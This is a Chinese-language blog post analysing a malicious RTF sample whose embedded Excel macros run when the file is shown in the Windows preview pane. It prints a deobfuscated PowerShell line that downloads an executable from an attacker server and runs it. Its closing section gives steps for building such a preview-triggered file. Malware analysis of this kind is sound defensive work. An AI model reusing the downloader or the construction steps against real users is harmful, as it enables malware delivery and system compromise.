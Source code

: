 ```yaml
---
title: '样本分析 - 预览界面触发宏执行'
layout: post
tags:
  - 病毒分析
category: 信息安全-样本分析

excerpt: "大约一个月前，国外安全团队Bromium捕获了一个新的恶意样本，并从中发现了一种新的恶意文件攻击技术，该技术能够在用户没有打开包含恶意软件的文件的情况下，也能够触发恶意指令的执行。该技术主要是在Windows资源管理器或Outlook中选择了相应的文件时，右侧的预览窗口对文件进行了预览显示触发了攻击。"
comments: true
image:
  feature: http://ww1.sinaimg.cn/large/006tNc79gy1g3lopu40exj31050gomzi.jpg
  credit: bromium
  creditlink: https://www.bromium.com/new-malware-launches-in-preview-pane/
---
```

## 样本来源

大约一个月前，国外安全团队Bromium捕获了一个新的恶意样本，并从中发现了一种新的恶意文件攻击技术，该技术能够在用户没有打开包含恶意软件的文件的情况下，也能够触发恶意指令的执行。该技术主要是在Windows资源管理器或Outlook中选择了相应的文件时，右侧的预览窗口对文件进行了预览显示触发了攻击。

 

样本哈希：3FEA120D39B1F0B63DC6A73D0EE2D197169FC765DD5B1EAFC5658C6799D4B00F

## 攻击技术复现

拿到样本后，我们就对样本进行了攻击的复现，根据作者说的，我们在选定了文件之后，文件的预览窗口就能触发执行。

国外研究团队给的图：

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2qfkqvj30bj05d3yr.jpg)

本地复现的图：（Powershell并没有在预览窗口出现）

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2mib2ej30bh03j0t1.jpg)

该攻击貌似只能对Windows 10系统才能生效，这边本地测试了Windows 7系统，Windows 7的预览界面貌似不能显示office类的文档，显示的是没有预览。

## 样本分析

拿着刚到手的样本，我们就对其展开了分析，刚复现完攻击的时候，心里都是各种牛逼呀，想着居然还有那么高端的操作，对攻击的定位感觉都是系统级的溢出漏洞了。压制住内心的膜拜，还是先依据常规的分析方式，对RTF文件进行一波解析先。

### RTF解析

我们立马就开始了对这个样本进行了的RTF数据的解析，解析结果发现，样本里面嵌套了5个excel对象，而且发现每个对象的数据指纹都是一样的。证明这是5个一样的对象。然后没有发现明显的溢出漏洞利用的迹象。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2mbj99j30bj0eadhn.jpg)

 

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2sfyuuj30bj03d0t6.jpg)

 

### OLE分离

在获取分离出来的文件之后，我们对分离出来的文件进行分析。发现解析出来的Excel对象嵌入了VB的恶意代码。

 

嵌套了代码的：

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2p0ve8j30bj06zgmc.jpg)

 

### 获取VB代码       

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2rubsbj30bj0eagnh.jpg)

### 分析混淆代码

虽然作者混淆了那么多无用的代码，但是在看了代码之后，我们还是能很快得到了恶意代码的原貌，最后解析出来的是使用VB运行了一段powershell。大致代码为（直接）：

 
{% highlight vb %}
CreateObject(WScript.Shell).exec “powershell”  
{% endhighlight %}
 

然后，我们获取到的Powershell也被做了的混淆，我们对混淆的powershell进行了分析，发现这是一个Downloader。大致代码为（粗暴）：

 
{% highlight powershell %}
DownloadFile('https://igyygyigus.com/new/smscscript090002000.exe', 'C:\Users\Administrator\AppData\Roaming\\b1bbb65.exe')  

Start-Process -Filepath C:\Users\Administrator\AppData\Roaming\\b1bbb65.exe; 
{% endhighlight %}
 

通过对Powershell的解密，我们可以发现攻击者服务器，我们想对黑客的服务器样本进行追溯，但是发现服务器已经关掉了，并没有获取到上面的样本。



## 攻击技术利用

看到新型的攻击手法，在研究完该样本的利用方式之后，作为尽职的蓝队一员，就是该纳入自己的囊下了。我们对样本的OLE对象的解析中发现，样本是通过使用\ objupdate来嵌入一个Excel对象，然后就能使在预览界面下，该Excel就能够得到触发。

另外，\ objupdate控件的使用其实不是第一次出现了，在CVE-2017-0199漏洞的攻击手法中，也利用了\ objupdate来触发Hta实现攻击。

 

![1](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2rd35mj30bj05iwfa.jpg)

 

下面，我们就可以来构建自己的预览触发样本了。

 

（1）准备一个附带有VBA的Excel文件

通过在Excel中嵌入宏，简单的构建。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2ngagrj30bj02lweo.jpg)

 

（2）将其转换成RTF格式

转换的方式多种多样，在网上以及office本身也可以进行转换。

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2pg27kj309v05tglt.jpg)

（3）提取其中的数据，并添加必要的头部

提取出来的数据是objdata那一段的

![img](http://ww1.sinaimg.cn/large/006tNc79gy1g3lo2ny6qkj30bj03cdgh.jpg)

​       

嵌入的头直接拿恶意样本的来用就可以了，标红的就是头，往后是拼接的数据。

![img](http://ww4.sinaimg.cn/large/006tNc79gy1g3lo2qv7r1j30bj01j3yk.jpg)

 

（4）嵌入你需要的RTF文件中

植入的位置选择后面，植入后随着office版本的不同，显示的效果还不一样，在office2007的版本下，显示不出文件，但是能够触发，在office2010下，显示是能够正常，植入尾部的话，会显示不起眼的几小横。

![img](http://ww3.sinaimg.cn/large/006tNc79gy1g3lo2pxlnej30bj023glq.jpg)

​       

（5）测试文件的可用性

最后，我们自然要来测试一下我们的效果。

![img](http://ww2.sinaimg.cn/large/006tNc79gy1g3lo2mzsxoj30bh037dg3.jpg)